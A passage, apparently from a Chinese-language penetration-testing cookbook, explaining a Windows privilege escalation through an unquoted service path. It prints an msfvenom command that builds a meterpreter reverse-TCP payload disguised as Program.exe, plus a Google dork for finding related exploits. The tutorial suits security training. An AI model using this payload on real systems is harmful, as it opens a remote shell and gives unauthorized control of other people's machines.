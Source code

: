 1.  我们成功地在重新启动时获得了一个反向连接；这是由于未加引号的服务路径漏洞。

1.  让我们检查我们收到连接的用户级别：![如何操作...](img/image_09_015.jpg)

1.  我们已经进入系统。现在我们可以在操作系统上执行任何任务而不受任何限制。

## 它是如何工作的...

如介绍中所讨论的，这是因为 Windows 处理服务二进制路径的执行流程。我们能够利用任何有空格并且没有被引号括起来的服务。

让我们了解`msfvenom`命令：

```
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP   Address>   LPORT=<Your Port to Connect On> -f exe > Program.exe

```

在上述命令中，`-p`代表有效载荷，`LHOST`和`LPORT`是有效载荷的要求，`-f`表示生成有效载荷的格式。

要获取更多信息，请输入以下命令：

```
  Msfvenom -h

```

## 还有更多...

更多未加引号的服务路径利用示例可在 exploit-db 上找到。使用以下 Google dork 命令获取更多信息：

```
intitle:unquoted site:exploit-db.com 

```

## 参见...
